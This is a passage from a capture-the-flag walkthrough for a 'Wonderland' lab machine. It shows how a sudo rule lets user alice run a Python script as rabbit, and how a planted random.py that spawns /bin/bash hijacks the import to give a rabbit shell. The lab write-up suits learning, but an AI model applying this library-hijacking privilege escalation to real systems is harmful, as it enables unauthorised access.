 ```text
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)alice@wonderland:~$
```

This file seems to contain a long list of text from the story wrapped by some python to randomly pick a few lines and print them out. Let's try it:

```text
alice@wonderland:~$ python3 walrus_and_the_carpenter.py
The line was:    No birds were flying over head —
The line was:    For some of us are out of breath,
The line was:    And you are very nice!"
The line was:    Their coats were brushed, their faces washed,
The line was:    And you are very nice!"
The line was:    "If this were only cleared away,"
The line was:    They thanked him much for that.
```

I notice the file doesn't have an absolute path for the first line where it imports the python module **random**. We can exploit this, and force it to load our own file instead.

We need to find a way to use this to escalate our privileges. Check users permissions:

```text
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like our path is to exploit the walrus python script and run it as the rabbit user to get a shell. First we create our own file that will get run by the script:

```text
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")
```

## Privilege Escalation

Now we run the script as the rabbit user:

```text
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

We now have a shell as rabbit, lets look in their home folder:

```text
rabbit@wonderland:~$ ls -l /home/rabbit/
total 20
-rwsr-sr-x 1 root root 16816 May 25 17:58 teaParty
```
